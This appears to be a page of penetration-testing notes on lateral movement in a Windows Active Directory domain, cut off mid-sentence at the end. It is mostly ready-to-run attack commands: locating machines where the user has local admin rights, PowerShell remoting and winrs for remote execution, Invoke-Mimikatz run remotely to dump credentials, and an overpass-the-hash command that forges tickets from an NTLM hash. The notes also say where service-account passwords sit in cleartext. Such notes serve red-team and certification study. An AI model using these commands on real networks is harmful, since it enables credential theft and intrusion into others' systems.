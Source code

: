# Privilege Movement

## Lateral Movement

| Command | Description |
| --- | --- |
| Find-LocalAdminAccess | Returns machines in current domain where current user has local admin access |
| Enter-PSSession -ComputerName <HOSTNAME> | Log into other computer remotely (works if you have local admin access on destination computer) |
| Invoke-Command -ComputerName <HOSTNAME> -ScriptBlock{<COMMAND>}} | Runs command on remote machine(s)
Use FilePath instead of ScriptBlock to execute a file |
| Invoke-Mimikatz -ComputerName @("comp1","comp2")  | Can be used to extract creds and write to LSASS using Invoke-Command and PS remoting |
| winrs -r:follow-0xd4y whoami  | Run whoami command on follow-0xd4y computer using WINRM |
- `Find-LocalAdminAccess` is very noisy
    - first runs `Get-NetComputer` and then uses `Invoke-CheckLocalAdminAccess` on each machine
- if `Enter-PSSession` does not work, you may need to run `Enable-PSRemoting`
- PS remoting uses port 5985 (http) while 5986 uses SSL
    - note only the transport tunnel is in cleartext, but the traffic inside that tunnel is encrypted
- note that `Invoke-Mimikatz` is better to use than `mimikatz.exe` as it does not require you to write to disc
    - you can run this remotely within a session: `Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Session $session`
- use `Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:follow-dc /ntlm:<NTLMHASH> /run:powershell.exe"'`  to generate tokens from hashes ← writing to LSASS
    - this is an overpass-the-hash attack - creates a ticket using NTLM hash of user
- the `winrs` command works on a remote computer if you have admin privileges on it

**Interacting with Script Inside Session**

```powershell
$session = New-PSSession -ComputerName <HOSTNAME> 
Invoke-Command -FilePath <PATH_TO_PS1_SCRIPT> -Session $session
Enter-PSSession -Session $session
```

**************Invoke-Command & Invoke-Mimikatz Tips**************

- note the password of service accounts are in cleartext when running mimikatz because their passwords are stored in LSA secrets
    - stored in **`HKEY_LOCAL_MACHINE/Security/Policy/Secrets`**
    - password in cleartext because this is needed for the service to log in as the service account
- you can run commands from local memory when targeting remote computers:

```powershell
Invoke-Command -ScriptBlock{Invoke-Mimikatz} -Session $session
```

- this runs the `Invoke-Mimikatz` cmdlet from one’s local PS session, and executes it on the remote machine
- with the hash of a user, you can start a session using a pass-the-hash attack (make sure you run this with local admin rights!):
